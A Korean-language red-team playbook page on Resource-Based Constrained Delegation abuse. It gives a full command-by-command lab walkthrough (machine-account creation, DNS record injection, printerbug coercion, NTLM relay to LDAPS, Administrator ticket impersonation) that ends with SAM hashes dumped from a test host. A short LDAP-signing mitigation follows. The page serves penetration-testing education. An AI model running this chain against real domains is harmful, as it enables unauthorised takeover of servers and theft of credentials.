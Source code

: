 # Resource-Based Constrained Delegation (RBCD)

Resource-Based Constrained Delegation (이하 RBCD, rbcd)는   타겟 호스트의 `ms-DS-AllowedToActOnBehalfOfOtherIdentity` 액티브 디렉토리 오브젝트 특성을 조작해 공격자의 머신 계정이 타겟 호스트에 접근할 때 높은 권한의 도메인 유저 (도메인 관리자, 등)을 impersonation 할 수 있게 하는 공격이다.

### 공격 조건&#x20;

* 공격자가 도메인 유저 권한을 가지고 있다&#x20;
* 도메인 내  ms-DS-MachineAccountQuota 가 0 이상이다 (디폴트 값: 10)&#x20;
* 타겟 서버가 강제 인증이 가능한 상태 (WebDav, RPC 기반 강제 인증, 등) 다&#x20;
* 도메인 컨트롤러의 LDAP Signing 이 Required 가 아니다&#x20;

위 공격 조건들이 모두 맞아 떨어질때, 공격자는 RBCD를 이용해 타겟 서버를 장악할 수 있게 된다. 예를 들어 내부망 내에 WebDAV가 활성화되어 있는 서버가 500대 존재한다면, 그 500대를 모두 장악할 수 있다.&#x20;

### 배경 지식&#x20;

ms-DS-AllowedToActOnBehalfOfOtherIdentity 특성은 서버 A가 서버 B에 접근할 때, 다른 유저로 가장 (impersonate) 할 수 있도록 해주는 특성이다. 이는 Kerberos Double Hop 문제를 해결할 때 사용된다. 다음의 문제 시나리오를 생각해보자.&#x20;

```
유저 -> 웹 서버 -> 데이터베이스 서버 
```

유저의 데이터를 관리하는 데이터베이스(디비) 서버가 있고, 그 앞에 프론트엔드 격의 웹 서버가 있다고 가정해보자. 유저는 자신의 데이터를 디비에서 꺼내오고 싶다. 그러려면 웹 서버를 통해야한다. 하지만 웹 서버의 입장에서는 디비로 무작정 가서 "나 웹 서번데, choi@choi.local" 유저의 데이터 내놔" 라고 할 수 없다. 디비 서버 입장에서도 "넌 웹 서번데 너가 왜 choi@choi.local 유저 데이터를 내놓으라 마라야?" 라는 반응을 보일 것이다. 이 문제를 "Double Hop" 문제라고 하고, 이를 해결하기 위해서 커버로스 Constrained Delegation 과 Resource-Based Constrained Delegation이 사용된다.&#x20;

### RBCD (Resource-Based Constrained Delegation)&#x20;

RBCD는 특정 호스트의 `ms-DS-AllowedToActOnBehalfOfOtherIdentity` 특성을 수정해 해당 호스트에 접근하는 다른 호스트가 도메인 유저를 가장 할 수 있도록 허락해주는 특성이다.&#x20;

위 Double Hop 예시를 들어보자면, 디비 서버의 `ms-DS-AllowedToActOnBehalfOfOtherIdentity` 특성을 수정해 "나 (디비 서버)에게 접근하는 호스트들 중, 웹 서버는 도메인 관리자 유저로서 나에게 접근을 허락합니다" 라는 설정을 하는 것이다. 그렇게 되면 웹 서버는 도메인 관리자 유저로서 디비 서버에 접근할 수 있게 된다.&#x20;

RBCD를 악용하기 위해서는 다음 2개 중 하나의 조건이 필요하다&#x20;

1. 타겟 서버에게 쓰기 권한을 가지고 있는 유저/머신 계정을 가지고 있다&#x20;
2. 타겟 서버가 HTTP 기반의 Net-NTLM 인증 트래픽을 보낼 수 있는 강제 인증에 취약한 상태이며, 도메인의 MachineAccountQuota 가 0 이상이고 (디폴트: 10), 도메인 컨트롤러가 LDAP Signing 활성화가 되어있지 않을 때&#x20;

이 페이지에서는 #2번 시나리오에 대해 설명한다.&#x20;

<figure><img src="../../.gitbook/assets/rbcd.drawio.png" alt=""><figcaption></figcaption></figure>

RBCD 공격 순서는 다음과 같다.&#x20;

1. 공격자는 ms-dsMachineAccountQuota 가 0 이상인 도메인에서 도메인 유저 권한으로 도메인에 머신 계정 - fake$@choi.local (fake.choi.local) 을 추가한다.&#x20;
2. 타겟 서버에게 HTTP 기반의 강제 인증을 실행한다. 자주 쓰이는 것은 WebDav 서비스에게 printerbug [ms-rprn.md](../../credential-access/authentication-coercion/ms-rprn.md "mention") 을 사용하되, 강제 인증 도착 주소를 공격자 머신 계정의 DNS 호스트 이름으로 지정하는 것이다.&#x20;
3. 타겟 서버는 공격자 머신 계정의 DNS  호스트 이름으로 HTTP 기반의 Net-NTLM 트래픽을 전송한다.&#x20;
4. 공격자 서버는 이 트래픽을 릴레이 해 도메인 컨트롤러의 LDAP 서비스로 릴레이 공격을 실행한다.&#x20;
5. 릴레이 공격을 통해 공격자 서버는 타겟 서버의 맥락 (context) 로 도메인 컨트롤러에게 가서 "내가 타겟 서버인데, 내 ms-DS-AllowedToActOnBehalfOfOtherIdentity 특성을 바꿔주세요. 나한테 접근하는 호스트들 중에 fake$@choi.local 이라는 머신 계정은 도메인 유저 아무나 가장 (impersonate) 할 수 있도록 설정해주세요" 라고 요청한다. 도메인 컨트롤러는 타겟 서버가 자신의 특성을 바꿔달라고 요청한 것으로 착각할테니 (릴레이 공격이라), 특성을 수정해준다.&#x20;
6. 특성이 수정됐기 때문에 공격자는 이제 `fake$@choi.local` 머신 계정으로 타겟 서버에 접근할 때 아무 도메인 유저나 가장 (impersonate)할 수 있게 되었다. 이제 타겟 서버로 도메인 관리자로 가장한채 접근해 타겟 서버를 장악한다.&#x20;

### 실습&#x20;

꽤나 복잡한 공격이기 때문에 몇 가지 조건들을 확인한다.&#x20;

1. 도메인 유저 권한을 가지고 있어야한다.
2. 도메인의 ms-DS-MachineAccountQuota 가 0 이상인지 확인한다&#x20;
   1. `cme ldap <dc> -u <u> -p <p> -M maq`
3. 도메인 컨트롤러의 LDAP Signing 이 Not Required 상태인지 확인한다&#x20;
   1. `cme ldap <dc> -u <u> -p <p> -M ldap-checker`
4. 타겟 서버가 WebDAV 서비스를 실행하고 있는지 확인한다&#x20;
   1. `cme smb <target> -u <u> -p <p> -M webdav`

모든 조건들이 확인됐다면 공격을 시작한다.&#x20;

1. 도메인 내 공격자 머신 계정을 생성한다.&#x20;

```
└─# impacket-addcomputer choi.local/low:'Password123!' -dc-ip 192.168.40.150
Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation
                                                                                                   
[*] Successfully added machine account DESKTOP-86TFUIC2$ with password ipIVa07EaG0gtxAQjUUNctIlBzesUPbI.
```

2. 공격자 머신 계정의 DNS 레코드를 LDAP을 통해 추가한다. 아래 명령어는 아까 생성한 `DESKTOP-8GTFUIC2$` 머신 계정의 DNS 레코드를 현재 공격자 컴퓨터인 `192.168.40.132` 에, 레코드 이름은 `redteamplaybook.choi.local` 로 추가했다.&#x20;

```
└─# python3 dnstool.py -u choi.local\\'DESKTOP-86TFUIC2$' -p 'ipIVa07EaG0gtxAQjUUNctIlBzesUPbI' -a add -r redteamplaybook -d 192.168.40.132 ldaps://192.168.40.150                                    

[-] Connecting to host...                                                                                                                                                                             
[-] Binding to host                                                                                                                                                                                   
[+] Bind OK                                                                                        
[-] Adding new record                            
[+] LDAP operation completed successfully
```

이제 DNS 레코드를 확인해보면 redteamplaybook.choi.local 은 현재 공격자 머신의 IP 주소인 192.168.40.132 로 resolve가 된다.&#x20;

```
└─# host redteamplaybook.choi.local
redteamplaybook.choi.local has address 192.168.40.132
```

3. 타겟 서버에게 강제 인증 공격을 실행한다. 강제 인증 자체는 MS-RPRN을 악용하는 Printerbug을 사용한다. 타겟 서버에게 "redteamplaybook@80/helloworld 라는 곳으로 가세요" 라고 얘기를 해주는데, 이는 사실상 `http://redteamplaybook.choi.local:80/helloworld` 와 같은 개념이다. 이 URL은 WebDAV 서비스가 Net-NTLM 트래픽을 사용해 방문할 것이다.&#x20;

```
└─# python3 printerbug.py choi.local/low:'Password123!'@192.168.40.151 redteamplaybook@80/helloworld
[*] Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation

[*] Attempting to trigger authentication via rprn RPC at 192.168.40.151
[*] Bind OK
[*] Got handle
RPRN SessionError: code: 0x6ba - RPC_S_SERVER_UNAVAILABLE - The RPC server is unavailable.
[*] Triggered RPC backconnect, this may or may not have worked
```

4. 타겟 서버의 WebDAV 서비스가 공격자 머신인 `http://redteamplaybook.choi.local:80/helloworld` 에 방문했다. 이 Net-NTLM 트래픽을 도메인 컨트롤러에게 릴레이한다. 이때, `--delegate-access` 플래그와 `--escalate-user <생성한-공격자-머신-계정>` 을 지정해 공격자 머신 계정이 타겟 서버의 `ms-DS-AllowedToActOnBehalfOfOtherIdentity` 특성에 들어갈 수 있도록 만든다.&#x20;

```
└─# ntlmrelayx.py -t ldaps://dc01.choi.local -wh 192.168.40.151 --delegate-access --escalate-user 'DESKTOP-86TFUIC2$'

[*] HTTPD(80): Connection from 192.168.40.151 controlled, attacking target ldaps://dc01.choi.local
[*] HTTPD(80): Authenticating against ldaps://dc01.choi.local as CHOI/WKSTN01$ SUCCEED
[*] Delegation rights modified succesfully!
[*] DESKTOP-86TFUIC2$ can now impersonate users on WKSTN01$ via S4U2Proxy
```

5. 이제 공격자의 머신 계정 `DESKTOP-86TFUIC2$` 은 타겟 서버에 접근할 때 아무런 도메인 유저로서 가장 (impersonate) 할 수 있게 됐다. 타겟 서버의 CIFS 서비스로 접근하는 커버로스 서비스티켓을 발급받을 때, 도메인 관리자인 `Administrator@choi.local` 유저로 가장 (impersonate) 한다.&#x20;

```
└─# impacket-getST choi.local/'DESKTOP-86TFUIC2$':'ipIVa07EaG0gtxAQjUUNctIlBzesUPbI' -spn cifs/wkstn01.choi.local -impersonate Administrator
Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```

6. 발급 받은 서비스티켓은 "도메인 관리자로서 타겟 서버의 CIFS 서비스에 접근 할 수 있는" 서비스티켓이다. 이 티켓을 활용해 타겟 서버를 장악한 뒤, SAM 데이터베이스를 덤프한다.&#x20;

```
└─# cme smb 192.168.40.151 --use-kcache --sam 

SMB         192.168.40.151  445    WKSTN01          [*] Windows 10.0 Build 19041 x64 (name:WKSTN01) (domain:choi.local) (signing:False) (SMBv1:False)
SMB         192.168.40.151  445    WKSTN01          [+] choi.local\Administrator from ccache (Pwn3d!)
SMB         192.168.40.151  445    WKSTN01          [+] Dumping SAM hashes
SMB         192.168.40.151  445    WKSTN01          Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
SMB         192.168.40.151  445    WKSTN01          Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[ ... ] 
```



### 대응 방안&#x20;

RBCD는 액티브 디렉토리의 커버로스나 `ms-DS-AllowedToActOnBehalfOfOtherIdentity` 특성의 취약점을 익스플로잇 하는 공격이 아니다. 그저 커버로스 Delegation의 개념과 액티브 디렉토리의 오브젝트 특성을 공격자의 관점에서 악용하는 공격일 뿐이다.&#x20;

따라서 유일한 대응 방안은 LDAP NTLM 릴레이 공격시 릴레이와 릴레이를 통한 특성 변경이 불가능 하도록 LDAP Signing 을 활성화 시키는 것 뿐이다.&#x20;





### 레퍼런스

{% embed url="http://blog.redxorblue.com/2019/12/no-shells-required-using-impacket-to.html" %}

{% embed url="https://pentestlab.blog/2021/10/18/resource-based-constrained-delegation/" %}
